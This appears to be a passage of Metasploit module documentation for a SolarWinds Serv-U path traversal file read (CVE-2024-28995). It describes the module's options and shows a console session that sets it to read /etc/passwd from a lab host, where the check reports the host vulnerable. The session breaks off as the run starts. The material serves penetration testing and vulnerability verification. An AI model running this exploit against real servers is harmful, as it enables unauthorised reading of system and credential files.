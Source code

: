 ### STORE_LOOT
Whether the read file's contents should be stored as loot in the Metasploit database. If set to false, the files
content will be displayed in the console. (default: true).

### TARGETURI
The base URI path to the web application (default: /).

### TARGETFILE
The absolute path of a target file to read (default: /etc/passwd).

### PATH_TRAVERSAL_COUNT
The number of double dot (..) path segments needed to traverse to the root folder. For a default install of Serv-U
on both Linux and Windows, the value for this is 4. (default: 4).

## Scenarios

### A vulnerable Linux target

```
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RHOST 192.168.86.43
RHOST => 192.168.86.43
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RPORT 443
RPORT => 443
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set STORE_LOOT false
STORE_LOOT => false
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set TARGETFILE /etc/passwd
TARGETFILE => /etc/passwd
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > show options

Module options (auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   PATH_TRAVERSAL_COUNT  4                yes       The number of double dot (..) path segments needed to traverse to the root folder.
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 443              yes       The target port (TCP)
   SSL                   true             no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT            false            no        Store the target file as loot
   TARGETFILE            /etc/passwd      yes       The full path of a target file to read.
   TARGETURI             /                yes       The base URI path to the web application
   VHOST                                  no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > check
[+] 192.168.86.43:443 - The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Linux 64-bit; Version: 6.5.0-15-generic)
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > run
[*] Running module against 192.168.86.43

[*] Running automatic check ("set AutoCheck false" to disable)
```